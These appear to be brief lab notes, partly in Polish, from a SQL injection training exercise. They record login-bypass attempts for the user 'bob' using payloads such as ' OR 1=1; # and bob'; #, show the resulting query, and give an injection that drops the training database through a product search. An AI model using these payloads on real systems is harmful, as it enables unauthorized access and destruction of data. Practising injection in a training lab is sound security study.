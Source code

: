 1. Login without user password - attempt 1
	User: bob, Password: ' OR 1=1; #
	nie da się ponieważ pole $password jest haszowane
2. Login without user password -  attempt 2
	User: bob'; #
3. 


`SELECT * FROM users where username='bob' and password='5f4dcc3b5aa765d61d8327deb882cf99';`
``
`bob'; #`


SELECT * FROM products WHERE product_name LIKE ''; DROP DATABASE if exists sqlitraining -- // ';
